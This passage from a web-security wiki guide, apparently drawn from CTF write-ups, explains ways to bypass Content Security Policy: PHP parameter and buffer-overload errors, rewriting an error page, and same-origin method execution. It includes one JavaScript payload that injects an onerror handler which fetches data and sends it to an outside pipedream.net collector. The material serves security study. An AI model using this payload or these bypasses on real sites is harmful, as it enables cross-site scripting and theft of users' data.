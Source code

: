 By monitoring which requests are blocked or allowed by the CSP, one can narrow down the possible characters in the secret subdomain, eventually uncovering the full URL.

Both methods exploit the nuances of CSP implementation and behavior in browsers, demonstrating how seemingly secure policies can inadvertently leak sensitive information.

Trick from [**here**](https://ctftime.org/writeup/29310).

## Unsafe Technologies to Bypass CSP

### PHP Errors when too many params

According to the [**last technique commented in this video**](https://www.youtube.com/watch?v=Sm4G6cAHjWM), sending too many parameters (1001 GET parameters although you can also do it with POST params and more that 20 files). Any defined **`header()`** in the PHP web code **won't be sent** because of the error that this will trigger.

### PHP response buffer overload

PHP is known for **buffering the response to 4096** bytes by default. Therefore, if PHP is showing a warning, by providing **enough data inside warnings**, the **response** will be **sent** **before** the **CSP header**, causing the header to be ignored.\
Then, the technique consists basically in **filling the response buffer with warnings** so the CSP header isn't sent.

Idea from [**this writeup**](https://hackmd.io/@terjanq/justCTF2020-writeups#Baby-CSP-web-6-solves-406-points).

### Rewrite Error Page

From [**this writeup**](https://blog.ssrf.kr/69) it looks like it was possible to bypass a CSP protection by loading an error page (potentially without CSP) and rewriting its content.

```javascript
a = window.open("/" + "x".repeat(4100))
setTimeout(function () {
  a.document.body.innerHTML = `<img src=x onerror="fetch('https://filesharing.m0lec.one/upload/ffffffffffffffffffffffffffffffff').then(x=>x.text()).then(x=>fetch('https://enllwt2ugqrt.x.pipedream.net/'+x))">`
}, 1000)
```

### SOME + 'self' + wordpress

SOME is a technique that abuses an XSS (or highly limited XSS) **in an endpoint of a page** to **abuse** **other endpoints of the same origin.** This is done by loading the vulnerable endpoint from an attacker page and then refreshing the attacker page to the real endpoint in the same origin you want to abuse. This way the **vulnerable endpoint** can use the **`opener`** object in the **payload** to **access the DOM** of the **real endpoint to abuse**. For more information check:

{{#ref}}
../xss-cross-site-scripting/some-same-origin-method-execution.md
{{#endref}}
